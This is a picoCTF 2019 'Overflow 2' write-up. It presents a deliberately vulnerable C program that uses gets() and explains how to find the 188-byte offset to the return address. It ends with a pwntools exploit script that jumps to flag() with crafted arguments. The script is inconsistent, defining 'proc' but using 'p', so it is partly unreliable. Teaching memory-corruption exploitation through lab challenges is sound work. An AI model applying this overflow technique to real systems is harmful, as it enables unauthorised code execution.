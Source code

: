 [Back](PicoFrontPage.md)

# Overflow 2
---

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Some important points:
* Different to overflow-1 because flag function takes arguments - these arguments are checked before spitting out the flag file contents
* Calls `gets()` again

### Analysis

So, like overflow-1, the program calls `gets()` so we can overflow that and take control of the return address (feed it `flag()` function's address).
If we `disassemble vuln`, we can see the stack build-up when the `vuln()` function is called.

<!-- disasvulnoverflow2 -->
![Image of GEF](../Images/PicoCTF2019/disasvulnoverflow2.jpg)

So, piecing all of it together, we can see the stack would probably look something like this:

<!-- StackOverflow2 -->
![Image of Stack](../Images/PicoCTF2019/StackOverflow2.jpg)

Doing the calculation: `0xb4 + 0x4 + 0x4 = 0xbc`.
Convert it to bytes through:
```
python
0xbc
```
And it should return 188 bytes.

Let's confirm if what we assumed is right through feeding a string.
Use the cyclic tool to get a string to give the program: `cyclic 200`.

Run GDB for the program.
Feed the string to the input and then analyze.

<!-- OverflowedOverflow2 -->
![Image of overflowed](../Images/PicoCTF2019/OverflowedOverflow2.jpg)

We see that `waab` or `0x62616177` is what is stored as the return address.
And so using `cyclic -l waab` it confirms that it is 188 bytes to reach `$eip`.

#### Arguments

Arguments are actually thrown onto the stack before the instruction pointer and can be referenced from the base pointer as you will be able to see in the images below.

We can `disassemble flag` to analyze the arguments for the `flag()` function.

<!-- Overflow2args -->
![Image of args](../Images/PicoCTF2019/Overflow2args.jpg)

This can also be seen through a disassembler.

<!-- Overflow2argsdisassembler -->
![Image of argsdisassembler](../Images/PicoCTF2019/Overflow2argsdisassembler.jpg)
<!-- Overflow2argsdisassembler2 -->
![Image of argsdisassembler2](../Images/PicoCTF2019/Overflow2argsdisassembler2.jpg)

We can see that the arguments `0xdeadbeef` and `0xc0ded00d` are stored on the stack at `ebp + 0x8` and `ebp + 0xc`, respectively.

Now, do the classic, find out the `flag()` address.

### Exploit

Final script:
```python
from pwn import *

proc = process('./vuln') # specifying the process

# addr and arg variables
addr = 0x80485e6
arg0 = 0xDEADBEEF
arg1 = 0xC0DED00D

# create payload of 188 + return address + 4 bytes + arg1 + arg2
payload = b'A'*188 + p32(addr) + b'A'*4 + p32(arg0) + p32(arg1)

# keep receiving until character is read
p.recvuntil(b'Please enter your string:')

# send payload as one line
p.sendline(payload)

# to get a shell
p.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[Overflow 1](overflow1writeup.md)   [New Overflow 1](newoverflow1writeup.md)
